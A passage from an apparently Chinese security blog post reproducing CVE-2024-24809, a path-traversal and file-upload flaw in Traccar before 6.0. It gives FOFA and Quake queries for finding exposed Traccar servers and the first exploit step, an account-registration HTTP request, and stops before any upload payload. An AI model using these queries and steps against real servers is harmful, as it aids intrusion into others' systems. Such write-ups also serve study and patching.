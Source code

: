 #  【漏洞复现】CVE-2024-24809   
混子Hacker  混子Hacker   2024-11-24 16:25  
  
****  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。  
  
  
[   
漏洞简介   
]  
  
——    
生活不可能像你想象的那么好，但也不会像你想象的那么糟。人的脆弱和坚强都超乎自己的想象。  
 ——  
  
CVE-2024-24809  
  
Description Traccar 是一个开源的 GPS 跟踪系统。6.0 之前的版本容易受到路径遍历和不受限制地上传危险类型的文件的影响。由于系统默认允许注册，攻击者可以通过注册账号来获取普通用户权限，并利用该漏洞上传前缀为 device 的文件。在任何文件夹下。攻击者可以利用此漏洞进行网络钓鱼、跨站点脚本攻击，并可能在服务器上执行任意命令。版本 6.0 包含针对该问题的补丁  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGv9LicVJicUAAdGc6ibLKGZvJzZDhD5PI8HNcjTnOibA2yYrUxvhNhYjKFIbwOtjn37QX78llVrbj8Mew/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞信息  
  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
  
```
fofa: app="Traccar"
Quake：title:"Traccar"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGv9LicVJicUAAdGc6ibLKGZvJzVIKRGeTmjQArgicQFa0RpcFLD48tzjwXfbLIJ7fvNZytaQYPnGz7gPw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGv9LicVJicUAAdGc6ibLKGZvJzEfYPOERBDe4YAJNUu5PMuMTa136DokNFF77PgzCZTYAv3Zcib6xOC9g/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
1、注册账号  
```
POST /api/users HTTP/1.1
Host: xxx
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept: */*
Content-Length: 73

{"name": "用户名", "email": "邮箱", "password": "123456"}
```  
  